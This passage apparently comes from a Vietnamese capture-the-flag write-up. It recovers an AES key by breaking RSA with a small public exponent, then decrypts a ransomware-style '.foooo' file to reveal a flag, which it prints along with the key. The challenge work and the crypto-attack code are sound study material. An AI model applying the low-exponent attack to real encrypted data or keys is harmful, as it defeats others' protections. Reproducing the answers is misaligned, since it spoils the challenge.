1u4SLZ8wVXc1zNNXklKRhYWlIVzagvjTdF26Wk6Vsld9JSkdiN+WZgz8Aka5FK4splAxPJX3VFtBxhLqCBWsqpuuOgAaLEuxxwc0vePe6DlvTxnntODCAZCEeDUe5C1+iUVieO7NeYyx1aFf75T0XdDZAKGSgW7HdM9DBMGMlVAEdCq3OTMbp+rTUkhsW3LZIrcVpGGBlkFy/a39xu5JnNzaJFCTtjy6kqDHhctfu6fsQ0dXrrHQN/UjiaitEdHMS7G3OTcaTqpf01nhPxlypaW+P28kW+YVTrFWJycUvglGBdmdbv2ttsoRpFE6tGXNDqnKRK4yr/8JPkH/mhMrruCYUZMIr2+R0HoDQxXm0BMOrBUUSzPxdXPD6hYwSma1AHeptmaRX5n+8gpeleweOGiJAFLoui5WDQeiEowBZZZJlKbbFGFIfwx722pdkEYVIuMfAxPIDUf21oJj01wHrBxQ=="

# Low exponent attack
c = int.from_bytes(base64.b64decode(ciphertext), 'big')
m = libnum.nroot(c, e)
key = base64.b64encode(m.to_bytes(32, 'big')).decode()

print(f"AES Key: {key}")
# Wu/F6K9CnxuCS0ubNF5CEceMumb155dGnV2714cOp8g=
```
Giờ đã có key, giải mã file `Important_File_You_Need!!!.dat.foooo` đã thấy ở desktop thôi
```
from Crypto.Cipher import AES
import base64

def decrypt_foooo_file(encrypted_b64_content, aes_key_b64):
    # Parse key và data
    key = base64.b64decode(aes_key_b64)
    data = base64.b64decode(encrypted_b64_content)
    
    # IV = 16 bytes đầu, ciphertext = phần còn lại
    iv = data[:16]
    ciphertext = data[16:]
    
    # AES-CBC decrypt
    cipher = AES.new(key, AES.MODE_CBC, iv)
    plaintext = cipher.decrypt(ciphertext)
    
    # Remove PKCS7 padding
    pad_len = plaintext[-1]
    return plaintext[:-pad_len]

# AES key từ RSA crack
aes_key = "Wu/F6K9CnxuCS0ubNF5CEceMumb155dGnV2714cOp8g="

# Đọc file .foooo (paste nội dung vào đây)
with open("Important_File_You_Need!!!.dat.foooo", "r") as f:
    encrypted_content = f.read().strip()

# Decrypt
try:
    decrypted_bytes = decrypt_foooo_file(encrypted_content, aes_key)
    
    # Try decode as text
    try:
        flag = decrypted_bytes.decode('utf-8')
        print(f"Decrypted text: {flag}")
    except:
        print(f"Decrypted hex: {decrypted_bytes.hex()}")
        print(f"Decrypted bytes: {decrypted_bytes}")
        
except Exception as e:
    print(f"Error: {e}")
#MXNFQnFuZklTR0hGemV6MzBLaFZLaVMyaThFRXd0bnh5czJFWUxRcVp0Z2tBZEM5eDZqMmxjaG5UZnh6RDRnbmVUVElRM1gzMklzMXlUVnhsQmMycUNhRExUQ1hDTFlDcG1Sa29pZkNrQnFSeW9YZVVuWlA0YlliSFhveThzNndJZERPYzBST0lUaGhYU1ZWYnJHaG15SEY4c29yRDh0WnFZcDdJazZ6bFRpTUNpNXlCVHV3cUxBNXVOWHZiVzF4SzRKQXRFTm9LU1FvR056c3JLWVJqRWV1UndrekhkOXVDVGM4aVhXZVNnb3p3U1pTclpndXljckJOR0JzMG1nNVYzRG1LZUI3OTJTeHI0blRURWczSTNuaG5jZTUydHl6a0lZTmxxZE1panJtT2hvZE83MHJpS2hjYnFnRmpTQ1JFbW1jdGFjYlVRdg==
```
Sau khi giải mã nhận được một đoạn mã, đưa lên cyberchef giải mã và nhận được part 2 của flag

`FLAG: W1{7h15_155_7h3_f1rr57_fl4ff4g_s3ss1on_r3c0very-4nD-Brok3n_RSA_key_with_Sm4l1_Exp0n3nt!!Chiyochiyochiyo}`
